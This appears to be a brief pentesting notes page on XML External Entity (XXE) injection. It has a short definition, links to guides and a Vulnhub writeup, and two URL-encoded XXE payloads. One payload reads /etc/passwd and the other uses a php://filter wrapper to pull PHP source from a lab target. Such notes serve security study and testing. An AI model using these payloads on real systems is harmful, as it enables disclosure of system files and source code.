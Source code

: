 ```yaml
---
tags:
  - Exploitation
  - FileTypesAndData
---
```


# XML External Entity XXE Injection

XML External Entity (XXE) injection is a type of attack where an attacker can exploit vulnerabilities in an XML parser to disclose confidential data, execute remote code, or perform other malicious actions. This attack occurs when the XML input contains references to external entities that are processed by the XML parser.
## Guide

* [Exploitation: XML External Entity (XXE) Injection | Depth Security](https://www.depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection/)
* [Vulnhub - scarecrow writeup](https://blog.mzfr.me/vulnhub-writeups/2019-08-24-scare)
* Payloads may have to be double URL encoded
# Payloads

[PayloadsAllTheThings/XXE Injection at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

````
<%3fxml+version%3d"1.0"%3f><!DOCTYPE+root+[<!ENTITY+test+SYSTEM+'file%3a///etc/passwd'>]><root><user>%26test%3b</user></root>
````
```
auth=<%3fxml+version%3d"1.0"%3f><!DOCTYPE+root+[<!ENTITY+test+SYSTEM+'php://filter/convert.base64-encode/resource=/var/www/html/scarecrow/personal_secret_admin_page.php'>]><root><user>%26test%3b</user></root>
```
